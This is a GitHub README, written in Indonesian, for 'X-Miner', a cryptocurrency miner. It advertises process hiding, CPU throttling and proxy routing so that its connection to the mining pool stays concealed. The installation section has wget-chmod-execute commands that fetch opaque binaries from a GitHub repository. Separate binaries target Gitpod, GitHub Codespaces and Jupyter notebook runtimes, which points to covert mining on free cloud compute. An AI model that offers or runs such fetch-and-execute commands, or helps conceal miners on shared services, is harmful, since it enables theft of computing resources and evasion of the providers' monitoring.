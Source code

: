 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.gorm

wget https://github.com/x-minerLicense/er-1/raw/refs/heads/main/xgm

# Beri izin eksekusi
chmod +x xgm

# Jalankan aplikasi
./xgm

3.codespace

wget https://github.com/x-minerLicense/ER1/raw/refs/heads/main/xgt

# Beri izin eksekusi
chmod +x xgt

# Jalankan aplikasi
./xgt

3. runtime notebook/jupyter

wget https://github.com/x-minerLicense/er-1/raw/refs/heads/main/xc

# Beri izin eksekusi
chmod +x xc

# Jalankan aplikasi
./xc

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai

